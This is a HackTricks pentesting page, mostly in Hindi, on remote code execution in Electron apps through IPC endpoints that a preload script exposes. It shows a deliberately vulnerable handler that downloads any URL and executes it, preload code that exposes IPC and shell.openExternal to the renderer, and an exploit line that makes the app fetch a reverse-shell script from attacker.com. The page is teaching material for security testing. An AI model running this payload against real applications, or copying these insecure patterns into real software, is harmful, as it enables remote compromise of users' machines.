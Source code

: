 # Electron contextIsolation RCE via IPC

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

यदि preload स्क्रिप्ट main.js फ़ाइल से एक IPC एंडपॉइंट को उजागर करती है, तो रेंडरर प्रक्रिया इसे एक्सेस कर सकेगी और यदि यह कमजोर है, तो RCE संभव हो सकता है।

**इनमें से अधिकांश उदाहरण यहाँ से लिए गए थे** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo)। आगे की जानकारी के लिए वीडियो देखें।

## Example 0

[https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21) से उदाहरण (आपके पास MS Teams के XSS से RCE तक के दुरुपयोग का पूरा उदाहरण है, यह सिर्फ एक बहुत बुनियादी उदाहरण है):

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Example 1

चेक करें कि `main.js` `getUpdate` पर कैसे सुनता है और **किसी भी URL** को **डाउनलोड और निष्पादित** करेगा।\
यह भी चेक करें कि `preload.js` **मुख्य से किसी भी IPC** इवेंट को कैसे **उजागर** करता है।
```javascript
// Part of code of main.js
ipcMain.on('getUpdate', (event, url) => {
console.log('getUpdate: ' + url)
mainWindow.webContents.downloadURL(url)
mainWindow.download_url = url
});

mainWindow.webContents.session.on('will-download', (event, item, webContents) => {
console.log('downloads path=' + app.getPath('downloads'))
console.log('mainWindow.download_url=' + mainWindow.download_url);
url_parts = mainWindow.download_url.split('/')
filename = url_parts[url_parts.length-1]
mainWindow.downloadPath = app.getPath('downloads') + '/' + filename
console.log('downloadPath=' + mainWindow.downloadPath)
// Set the save path, making Electron not to prompt a save dialog.
item.setSavePath(mainWindow.downloadPath)

item.on('updated', (event, state) => {
if (state === 'interrupted') {
console.log('Download is interrupted but can be resumed')
}
else if (state === 'progressing') {
if (item.isPaused()) console.log('Download is paused')
else console.log(`Received bytes: ${item.getReceivedBytes()}`)
}
})

item.once('done', (event, state) => {
if (state === 'completed') {
console.log('Download successful, running update')
fs.chmodSync(mainWindow.downloadPath, 0755);
var child = require('child_process').execFile;
child(mainWindow.downloadPath, function(err, data) {
if (err) { console.error(err); return; }
console.log(data.toString());
});
}
else console.log(`Download failed: ${state}`)
})
})
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
ipcRenderer.send(event, data);
};
```
शोषण:
```html
<script>
electronSend("getUpdate","https://attacker.com/path/to/revshell.sh");
</script>
```
## Example 2

यदि प्रीलोड स्क्रिप्ट सीधे रेंडरर को `shell.openExternal` कॉल करने का एक तरीका प्रदान करती है, तो RCE प्राप्त करना संभव है।
```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
shell.openExternal(url);
};
```
## Example 3

यदि प्रीलोड स्क्रिप्ट मुख्य प्रक्रिया के साथ पूरी तरह से संवाद करने के तरीके प्रदान करती है, तो एक XSS किसी भी घटना को भेजने में सक्षम होगा। इसका प्रभाव इस बात पर निर्भर करता है कि मुख्य प्रक्रिया IPC के संदर्भ में क्या प्रदान करती है।
```javascript
window.electronListen = (event, cb) => {
ipcRenderer.on(event, cb);
};

window.electronSend = (event, data) => {
ipcRenderer.send(event, data);
};
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
